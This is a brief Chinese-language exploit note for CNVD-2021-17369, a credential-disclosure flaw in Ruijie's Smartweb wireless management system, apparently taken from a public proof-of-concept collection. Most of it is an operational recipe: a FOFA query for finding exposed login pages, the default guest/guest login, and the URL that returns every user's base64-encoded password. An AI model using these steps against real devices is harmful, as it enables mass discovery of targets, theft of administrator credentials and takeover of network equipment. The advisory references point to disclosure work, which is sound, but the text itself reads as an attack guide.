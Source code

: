 # 锐捷Smartweb管理系统 密码信息泄露 CNVD-2021-17369

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

FOFA:

`title="无线smartWeb--登录页面"`

默认guest账户密码：guest/guest


登录后访问：`http://target/web/xml/webuser-auth.xml`

获取所有用户账号密码，base64解码即可。

ref：

* https://mp.weixin.qq.com/s/EICYTqRWDRB8OfXKHxCBfQ
* https://www.cnvd.org.cn/flaw/show/CNVD-2021-17369